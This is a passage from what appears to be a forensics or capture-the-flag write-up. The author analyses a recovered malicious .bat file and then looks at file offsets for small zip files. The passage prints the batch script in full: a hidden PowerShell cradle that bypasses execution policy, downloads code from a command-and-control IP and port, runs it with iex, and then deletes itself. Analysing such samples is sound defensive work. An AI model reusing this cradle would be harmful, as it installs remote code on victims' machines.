 The filename and raw data are immediately visible. The other metadata includes
all the timestamps and permissions data, but in a binary format that’s not
human readable.

I’ll copy out the `.bat` file text:

    
    
    @echo off
    start /b powershell.exe -nol -w 1 -nop -ep bypass "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://43.204.110.203:6666/download/powershell/Om1hdHRpZmVzdGFW9uIGV0dw==') -UseBasicParsing|iex"
    (goto) 2>nul & del "%~f0"
    

This script is starting by turning off echo, to not print commands run to the
screen. Then it runs a PowerShell cradle that will issues a request to
`http://43.204.110.203:6666` and download a file, passing what comes back to
`iex` (short for `Invoke-Expression`). The C2 IP and port are
43.204.110.203:6666 (Task 6).

### Binary Files

It turns out that many of the files in question here are smaller than 900
bytes. For example, `invoice.zip` is 433 bytes. I can get the offset the same
way:

[![image-20240414163303841](../img/image-20240414163303841.png)_Click for full
size image_](../img/image-20240414163303841.png)

88576 * 1024 = 90701824 = 0x5680000. Zip files start with “PK”, which I’ll
find at offset 0x5680128:

[![image-20240414163459706](../img/image-20240414163459706.png)_Click for full